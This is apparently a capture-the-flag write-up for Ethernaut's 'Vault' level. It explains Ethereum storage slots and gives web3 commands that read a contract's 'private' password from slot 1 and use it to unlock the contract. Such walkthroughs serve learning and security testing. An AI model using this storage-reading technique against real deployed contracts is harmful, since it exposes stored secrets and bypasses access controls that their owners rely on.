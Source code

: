# Day 8 - Vault

## How Ethereum stores data on the blockchain

Storage on Ethereum blockchain is 2²⁵⁶ slots, and each slot is 32 bytes.

Each smart contract has its own storage to reflect the state of the contract. The values in storage persist across different function calls. And each storage is tethered to the smart contract’s address.

Data is stored sequentially in these slots, in order of declaration.
Storage is optimized to save byte space. So if sequential variables will fit in a single 32-byte slot, they will share the same slot, indexing from the least significant bits (from the right).

![Storage](./images/storage.jpeg)

## Accessing storage

Conveniently, Web3 allows you to reach into contract storage via:

```js
web3.eth.getStorageAt(contractAddress, slotNumber);
```

## Solution

- [init a truffle project](./projects/day8-vault)

- Open truffle console on Ropsten

```js
truffle console --network ropsten
```

- Access the password storage slot belonging to the contract instance (deployed by Ethernaut) at index 1

```js
const password = await web3.eth.getStorageAt("<<ethernaunt contract address>>", 1);
```

- We can check the password string by `web3.utils.hexToAscii`

```js
console.log(web3.utils.hexToAscii(password)); // A very strong secret password :)
```

- Unlock ethernaut

```js
await contract.unlock(password);
```
